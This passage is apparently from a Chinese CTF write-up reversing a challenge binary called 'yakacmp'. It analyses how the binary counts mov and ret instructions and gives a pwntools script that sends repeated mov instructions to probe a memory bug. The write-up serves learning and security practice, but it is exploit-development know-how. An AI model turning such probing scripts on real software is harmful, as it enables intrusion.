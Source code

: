 ![](https://img-blog.csdnimg.cn/62e00cf4d6584c1fb16dd4b0a5f03eda.png)
这是调用了sub代码最后一个``sub_44B0``（即图中最下面的这个）函数后其返回值的追踪情况。调试发现，这个函数会返回一个堆指针。
![](https://img-blog.csdnimg.cn/10f9cdac8b944c318f2ed4c40151b6b4.png)
我们可以发现这里似乎出现了一些有规律的结构。再结合函数调用后的``++``操作，可以初步判断这里应该有一个类结构，而``++``操作可能表示的是指令计数器。但是至于为什么要将``mov``指令的计数器反复清空，目前还不清楚。

以这种推断，我们来看一下其他代码片段中对于这个函数的调用情况。

在处理``ret``指令的代码片段中，一共调用了三次``sub_44B0``函数。第一次是对``mov``指令计数器清零，第二次是将``ret``指令的计数器加1。第三次是判断``ret``指令个数是否大于0。如果大于0就会直接退出程序。那么这里可以很明显地看出一个逻辑bug。只要我们写入了``ret``指令，那么程序一定会直接退出（目前来看是这样）。

在处理``mov``指令的代码片段中，一共调用了两次``sub_44B0``函数。第一次是将``mov``指令的计数器加1，第二次是判断``mov``指令计数器值是否大于10。如果大于10则会插入``push/pop``指令。

在跳出循环之后，还会调用一次该函数判断是否有``ret``函数。如果没有则进行插入。可见我们并不需要，也不能写入一个``ret``指令。

如此，我们就成功获取了``sub_44B0``函数的大致语义。这也给了我们一些启示：**做题时应该静态调试和动态调试相结合**。

# Step 3: 漏洞分析与利用
在第一步分析main代码时我们就发现，程序对于``mov``指令的处理似乎有些问题。我们通过调试验证一下。

测试代码：
```python
from pwn import *
context(arch='amd64', log_level='debug')

elf = ELF('./yakacmp')
io = process('./yakacmp')

def make_add(reg1, reg2):
    return b'add ' + reg1 + b',' + reg2

def make_sub(reg1, reg2):
    return b'sub ' + reg1 + b',' + reg2

def make_chg(reg1, reg2):
    return b'chg ' + reg1 + b',' + reg2

def make_mov(reg1, reg2):
    return b'mov ' + reg1 + b',' + reg2

def make_ret():
    return b'ret'

def send_code(code):
    io.sendlineafter(b'more operation?', code)

code = make_mov(b'r1', b'r2')
io.sendlineafter(b'some code now', code)
send_code(make_mov(b'r2', b'r3'))
send_code(make_mov(b'r2', b'r3'))
send_code(make_mov(b'r2', b'r3'))
send_code(make_mov(b'r2', b'r3'))
send_code(make_mov(b'r2', b'r3'))
send_code(make_mov(b'r2', b'r3'))
send_code(make_mov(b'r2', b'r3'))
send_code(make_mov(b'r2', b'r3'))
send_code(make_mov(b'r2', b'r3'))
send_code(make_mov(b'r2', b'r3'))
gdb.attach(io)
time.sleep(3)
send_code(make_mov(b'r2', str(0x5212345678).encode()))
io.interactive()
```
